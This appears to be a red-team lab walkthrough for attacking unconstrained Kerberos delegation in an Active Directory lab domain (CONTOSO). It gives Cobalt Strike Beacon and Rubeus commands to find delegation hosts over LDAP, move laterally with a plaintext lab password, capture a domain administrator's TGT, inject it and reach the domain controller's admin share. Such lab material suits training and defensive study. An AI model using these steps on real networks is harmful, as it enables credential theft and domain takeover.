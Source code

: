 
### Unconstrained Delegation
- Use LDAP to find computers configured for unconstrained delegation.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb
-  Run Rubeus in monitor mode on _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap`
    
-  Wait 1-2 minutes for the TGT of a domain administrator to be captured.
    
-  Stop Rubeus.
    
    1. jobs
    2. jobkill 0
-  Inject the captured TGT into a sacrificial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:[TICKET]`
    
-  Impersonate the spawned process.
    
    1. steal_token [PID]
-  Verify the ticket is present.
    
    1. run klist
-  Use it to access _lon-dc-1_.
    
    1. ls \\lon-dc-1\c$
-  Drop the impersonation.
    
    1. rev2self
-  Terminate the spawned process.
    
    1. kill [PID]